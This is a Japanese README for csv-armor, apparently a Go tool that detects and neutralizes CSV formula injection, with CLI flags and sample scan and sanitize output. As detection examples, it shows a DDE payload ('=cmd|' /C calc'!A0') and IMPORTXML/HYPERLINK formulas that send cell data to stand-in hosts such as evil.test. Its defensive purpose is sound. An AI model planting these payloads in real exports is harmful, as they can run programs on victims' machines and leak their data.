

# csv-armor

[English](README.md) | [中文](README.zh.md) | [日本語](README.ja.md)

[](LICENSE) [](go.mod) [](CHANGELOG.md)  [](CONTRIBUTING.md)

**csv-armor：表計算ソフトがデータを実行してしまう前に、CSV 数式インジェクションを検出して無害化する。**


```bash
git clone https://github.com/JaydenCJ/csv-armor && cd csv-armor
go build -o csv-armor ./cmd/csv-armor    # single static binary, stdlib only
```

> プレリリース：v0.1.0 はまだパッケージレジストリにタグ付けされていません。上記のとおりソースからビルドしてください（任意の Go ≥1.22）。

## なぜ csv-armor か？

ユーザーがセルにテキストを入れ、それを後で CSV としてエクスポートする機能はすべて数式インジェクションのシンクです。ファイルを開くと、Excel、Google Sheets、LibreOffice は `= + - @`（または先頭の TAB）で始まるセルを*数式*として評価します——だから `=cmd|' /C calc'!A0` という題名のサポートチケットはプログラムを実行し、`=IMPORTXML("http://evil.test?"&A1)` は行を外部送出します。OWASP に載っており、バグバウンティでも繰り返し現れるのに、多くのコードベースは先頭スペースで回避される一行の接頭辞や、負数や電話番号の列まで壊すブロックリストで「修正」しています。csv-armor は同じ分類を共有する二つのツールです。CI 向けの終了コードと SARIF 出力を持ち、各検出に正確な理由を引用する**スキャナー**と、文書化されたアプリ別のエスケープ規則でセルを無害化する**サニタイザー**——つまり CI でペイロードを検出するエンジンが、エクスポート時にそれを解除するエンジンそのものです。

| | csv-armor | 手動 `'` 接頭辞 | 素朴なブロックリスト | 表計算の取込ガード |
|---|---|---|---|---|
| `= + - @` トリガーを検出 | ✅ | 該当なし | ✅ | ✅ |
| 先頭スペースの回避に対応 | ✅ | ❌ | 通常 ❌ | 場合による |
| アプリ別の規則（Excel/Sheets/LibreOffice） | ✅ | ❌ | ❌ | 一つのアプリのみ |
| DDE／ネットワーク関数ペイロードを昇格 | ✅ | ❌ | ❌ | ❌ |
| 数字・電話番号で誤検出なし | ✅ | 該当なし | ❌ | ✅ |
| CI 終了コード + SARIF | ✅ | ❌ | ❌ | ❌ |
| スキャナー*かつ*サニタイザー、同一分類 | ✅ | 無害化のみ | 検出のみ | 無害化のみ |
| 実行時依存 | 0 | 0 | 場合による | 該当なし |

<sub>依存数は 2026-07-12 に確認：csv-armor は Go 標準ライブラリのみを取り込みます。ペイロードと規則の参照は OWASP の CSV インジェクションガイダンスに従います。</sub>

## 機能

- **二つのツール、一つのエンジン** —— `scan` と `sanitize` サブコマンドは単一のセル分類器を共有するので、スキャナーがセル先頭で検出したものをサニタイザーが証明可能に無害化します（テストでペイロードコーパス全体に対して表明済み）。
- **アプリ別のエスケープ規則** —— `--profile excel|sheets|libreoffice|all` は各プログラムが実際に認めるトリガー文字とネットワーク対応関数をモデル化します。完全な表は [docs/escaping-rules.md](docs/escaping-rules.md) にあります。
- **実際のリスクを反映した深刻度** —— 単純な `=1+1` は中ですが、DDE（`=cmd|'…'!A0`）やネットワーク関数（`WEBSERVICE`、`IMPORTXML`、`HYPERLINK`）に到達するセルは高に昇格します。開いた瞬間にコードを実行するかデータを外部送出するからです。
- **CI 対応の出力** —— `scan --fail-on high` はパイプラインのゲートとして終了コード 1 を返し、`--format sarif` は検出を GitHub のコードスキャンタブへ直接流し込みます。`--format json` は安定した `schema_version: 1` エンベロープです。
- **誤検出が少ない** —— 符号付き数字、国際電話番号、裸の `@handle` は既定で除外され、静かなデータ破損も問題になる場合は `--paranoid` で検出できます。
- **忠実な無害化** —— `quote` モードは OWASP のアポストロフィを付け（表示値は不変）、`strip` モードはトリガーを除去します。どちらもファイルの区切り文字、BOM、改行を保持します。
- **依存ゼロ、完全オフライン** —— Go 標準ライブラリのみ。csv-armor はローカルファイルを読み、ローカルファイルを書く、それだけです。テレメトリなし、ネットワークも一切なし。

## クイックスタート

```bash
git clone https://github.com/JaydenCJ/csv-armor && cd csv-armor
go build -o csv-armor ./cmd/csv-armor
./csv-armor scan examples/exports.csv
```

実際に採取した出力：

```text
examples/exports.csv
  5 finding(s) across 35 cells (comma-delimited)
  !   R3C3  [medium/formula]  cell starts with "=" — the application evaluates it as a formula
         value: =1+1
  !!  R4C3  [high/dde]  DDE payload piping to "cmd" — opening the file can execute a local program
         value: =cmd|' /C calc'!A0
  !!  R5C3  [high/exfiltration]  calls IMPORTXML() — can send sheet data to an attacker-controlled host
         value: =IMPORTXML("http://example.test/x","//a")
  ·   R6C3  [low/at-sign]  cell starts with "@" — Excel evaluates legacy Lotus @-functions
         value: @SUM(A1:A9)
  !!  R7C3  [high/exfiltration]  calls HYPERLINK() — can send sheet data to an attacker-controlled host
         value: =HYPERLINK("http://example.test?leak="&A1)

summary (profile: all)
  files          1 scanned, 1 flagged
  cells          35
  findings       5  (high 3, medium 1, low 1)
  by kind        at-sign 1, dde 1, exfiltration 2, formula 1
```

何も評価されないようエクスポートを堅牢化する（`csv-armor sanitize`、実際の出力）：

```text
id,name,note,phone,balance
1,Alice,welcome aboard,+1 555-0100,-25.00
2,Bob,'=1+1,+44 20 7946 0000,-1250.50
3,Mallory,'=cmd|' /C calc'!A0,+81 90-1234-5678,0
4,Eve,"'=IMPORTXML(""http://example.test/x"",""//a"")",+1 555-0142,42.00
5,Trent,'@SUM(A1:A9),+1 555-0177,-3.50
6,Peggy,"'=HYPERLINK(""http://example.test?leak=""&A1)",+1 555-0188,17.25
```

## 検出リファレンス

分類は規則ベースで引用可能です —— アプリ別の完全な規則は [docs/escaping-rules.md](docs/escaping-rules.md) にあります。

| 種別 | 例となるセル | 深刻度 |
|---|---|---|
| `formula` | `=SUM(A1:A9)` | 中 |
| `arithmetic` | `+1+1`、`-2+3` | 低 |
| `at-sign` | `@SUM(A1:A2)`（Excel のみ） | 低 |
| `control` | TAB または CR で始まるセル（Excel のみ） | 低 |
| `dde` | `=cmd|' /C calc'!A0`、`=DDE(…)` | 高 |
| `exfiltration` | `=WEBSERVICE(…)`、`=IMPORTXML(…)`、`=HYPERLINK(…)` | 高 |
| `embedded` | 複数行セルの後続行がトリガーで始まる | 低 |

## CLI リファレンス

`csv-armor [scan|sanitize|version] [flags] [path]`。終了コード：0 正常、1 検出が `--fail-on` 以上、2 使い方の誤り、3 実行時エラー。

| フラグ | 既定 | 効果 |
|---|---|---|
| `--profile` | `all` | 規則セット：`all`、`excel`、`sheets`、`libreoffice` |
| `--delimiter` | 自動 | 区切り文字を強制、例：TSV は `tab`（既定：推測） |
| `--paranoid` | オフ | 符号付き数字・電話・裸の `@handle` も検出 |
| `--format`（scan） | `text` | `text`、`json`、または `sarif` |
| `--fail-on`（scan） | `high` | この深刻度で終了 1：`high`、`medium`、`low`、`none` |
| `--quiet`（scan） | オフ | 一行の要約のみ出力 |
| `--mode`（sanitize） | `quote` | `quote`（`'` を付与）または `strip`（トリガー除去） |
| `--in-place`（sanitize） | オフ | 入力ファイルを上書き |
| `--output`（sanitize） | —— | 無害化した CSV をこのファイルへ書き出す |

## アーキテクチャ



## ロードマップ

- [x] v0.1.0 —— アプリ別の検出エンジン、DDE/外部送出の昇格、text/JSON/SARIF と `--fail-on` ゲート付きスキャン、quote/strip サニタイザー、90 テスト + スモークスクリプト
- [ ] メモリより大きい CSV 向けのストリーミングモード
- [ ] 列スコープの規則（`--only col=note` / `--ignore col=formula_ok`）
- [ ] pre-commit フック設定と再利用可能な GitHub Action ラッパー
- [ ] Excel `.xlsx`/`.xlsm` 共有文字列のスキャン（CSV だけでなく）
- [ ] profile ごとに設定可能なカスタムネットワーク関数リスト

全リストは [open issues](https://github.com/JaydenCJ/csv-armor/issues) を参照してください。

## コントリビュート

issue、ディスカッション、pull request を歓迎します —— ローカルの手順（整形、vet、テスト、`SMOKE OK`）は [CONTRIBUTING.md](CONTRIBUTING.md) を参照してください。着手しやすい入口には [good first issue](https://github.com/JaydenCJ/csv-armor/issues?q=is%3Aissue+is%3Aopen+label%3A%22good+first+issue%22) のラベルが付いており、設計の議論は [Discussions](https://github.com/JaydenCJ/csv-armor/discussions) にあります。

## ライセンス

[MIT](LICENSE)
